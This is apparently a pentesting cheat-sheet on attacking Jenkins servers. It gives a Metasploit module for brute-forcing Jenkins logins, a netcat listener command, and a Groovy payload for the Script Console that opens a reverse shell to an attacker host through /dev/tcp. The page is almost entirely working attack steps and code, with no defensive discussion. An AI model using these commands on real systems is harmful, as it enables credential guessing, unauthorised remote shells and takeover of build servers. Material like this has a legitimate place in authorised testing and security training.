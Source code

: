 ```yaml
---
title: Jenkins Pentesting
desc: 
tags: [Jenkins, Netcat, Reverse Shell, Web]
alts: []
render_with_liquid: false
---
```


## Brute Force Credentials

```sh
msfconsole
msf > use auxiliary/scanner/http/jenkins_login
```

<br />

## Reverse Shell on Dashboard

You need to have the credential.

1. **Opening Listener on Your Local Machine**

    ```sh
    nc -lvnp 4444
    ```

2. **Login to Jenkins**

    Access "http://localhost:8080" in browser and login.

3. **Click "Manage Jenkins" -> "Script Console"**

4. **Add the Payload in the Console**

    ```java
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/<Attacker_IP>/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    ```

5. **Click "Run"**

    Then you should get a shell.